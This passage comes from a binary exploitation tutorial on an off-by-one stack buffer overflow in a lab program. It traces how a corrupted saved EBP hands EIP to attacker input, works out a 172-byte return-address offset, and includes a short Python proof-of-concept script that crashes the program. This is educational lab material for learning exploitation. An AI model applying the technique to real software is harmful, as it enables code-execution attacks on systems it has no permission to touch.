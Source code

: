 Above output shows we have control over instruction pointer (EIP) because of EBP overwrite!!

## Test Step 2: What is the offset from destination buffer.

Now lets find at what offset from the beginning of the destination buffer ‘buf’, we need to place our return address. Do remember in off-by-one vulnerability we arent overwriting actual return address stored in stack (like we do in stack based buffer overflows) instead a 4 byte memory region inside the attacker controlled destination buffer ‘buf’ will be treated as return address location (after off-by-one overflow). Thus we need to find this return address location offset (from ‘buf’) which is part of destination buffer ‘buf’ itself. Not very clear, no issues just read on!!

Lets now try to understand CPU execution starting at text segment address 0x08048490:

* 0x08048490 – call strcpy – This instruction execution results in off-by-one overflow, hence foo’s EBP value (stored in stack location 0xbffff2cc) gets changed from 0xbffff2d8 to 0xbffff200.
* 0x08048495 – leave – A leave instruction unwinds this function’s stack space and restores ebp.

```
leave: mov ebp, esp;        //unwind stack space by setting esp to ebp. 
       pop ebp;             //restore ebp
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff2cc
       pop ebp;             //ebp = 0xbffff200 (Overwritten EBP value is now stored in ebp register); esp = 0xbffff2d0
```

* 0x08048495 – ret – Returns to foo’s instruction 0x08048475
* 0x08048475 – leave – A leave instruction unwinds this function’s stack space and restores ebp.
```
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff200 (As part of unwinding esp is shifted down instead of up!!)
       pop ebp;             //ebp = 0x41414141; esp = 0xbffff204
```

0x08048476 – ret – Return’s to instruction located at ESP (0xbffff204). Now ESP is pointing to attacker controlled buffer and hence attacker can return to anyplace he wants to achieve arbitrary code execution.

Now lets get back to our original test of finding the offset to return address from destination buffer ‘buf’. As shown in our stack layout picture, ‘buf’ is located at 0xbffff158 and from following the CPU execution we know that return address location inside the destination buffer ‘buf’ is located at 0xbffff204. Hence offset to return address from ‘buf’ is 0xbffff204 – 0xbffff158 = 0xac. Thus user input of form “A”*172 + “B”*4 + “A”*80, overwrites EIP with “BBBB”.

```
$ cat exp_tst.py 
#exp_tst.py
#!/usr/bin/env python
import struct
from subprocess import call

buf = "A" * 172
buf += "B" * 4
buf += "A" * 80

print "Calling vulnerable program"
call(["./vuln", buf])

$ python exp_tst.py 
Calling vulnerable program
$ sudo gdb -q vuln 
Reading symbols from /home/sploitfun/lsploits/new/obo/stack/vuln...(no debugging symbols found)...done.
(gdb) core-file core
[New LWP 4055]
warning: Can't read pathname for load map: Input/output error.
```

[//]: <> (文章所涉及到的技术点的链接)
[//]: <> (题目)
[//]: <> (内容)